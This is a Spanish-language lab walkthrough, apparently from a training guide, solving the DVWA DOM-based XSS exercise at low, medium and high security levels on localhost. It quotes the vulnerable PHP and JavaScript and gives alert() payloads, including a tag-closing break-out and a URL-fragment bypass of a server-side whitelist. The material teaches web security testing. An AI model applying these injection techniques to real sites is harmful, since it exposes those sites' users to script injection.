

# Dom

### Bajo <a href="#domlow" id="domlow"></a>

Entramos en la ultima prueba de XSS que es el DOM, en la cual nos encontramos un select

.png>)

el cual al hacer click nos genera la siguiente url

```
http://localhost/vulnerabilities/xss_d/?default=French
```

Como en el reflejado vamos a vamos a probar el ataque básico de alert en la url a ver que sucede.

```
http://localhost/vulnerabilities/xss_d/?default=French<script>alert("low")</script>
```

Y vemos que el ataque tiene efecto.

.png>)

### Medio <a href="#dommedium" id="dommedium"></a>

Vamos al nivel medio y como siempre empezamos a probar por el ataque mas sencillo y vemos que no funciona.

.png>)

Si nos fijamos en el código, vemos que usa [stripos](http://php.net/manual/es/function.stripos.php) _que encuentra la posición de la primera aparición de un substring en un string sin considerar mayúsculas ni minúsculas;_ por lo que al usar el tag script, nos redirecciona a la url por defecto.

```php
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
```

Como hemos visto en otro ejemplo de XSS, vamos a utilizar los eventos de HTML, por lo que probamos la siguiente url

```markup
English
```

Quedándose como en el anterior caso, pero vamos a inspeccionar el elemento por si sucedió algo.

.png>)

Podemos observar que, el código que insertamos en la URL se nos ha metido dentro del option, por lo que tenemos que cerrar el option y el select para que lo escriba fuera.

```markup
English"></option></select>
```

Al hacer esto observamos que la inyección de código a sido exitosa.

.png>)

### Alto <a href="#domhigh" id="domhigh"></a>

Vamos con el ultimo nivel de XSS, si probamos todos los ataques anteriores vemos que el select ni se entera de que esta pasando.

.png>)

Si nos fijamos en el código, observamos que comprueba con un switch si es un valor valido.

```php
  switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
```

En las URLs existen las anclas que se utilizando usando #. La parte que se se encuentra posterior a la # no se envía al servidor, por lo que no se puede filtrar.

```
http://localhost/vulnerabilities/xss_d/?default=English#dvwa
```

Al probar la anterior url nos encontramos con que se pinta en el select



Esto es debido a una mala programación del JavaScript que renderiza la página.

```javascript
if (document.location.href.indexOf("default=") >= 0) {
    var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
    document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
    document.write("<option value='' disabled='disabled'>----</option>");
}
```

Que como vemos pinta tal cual llega de la URL lo que hay en default, por lo que si ejecutamos la siguiente URL

```
http://localhost/vulnerabilities/xss_d/?default=English#<script>alert("high")</script>
```

Conseguimos realizar el ataque.

.png>)

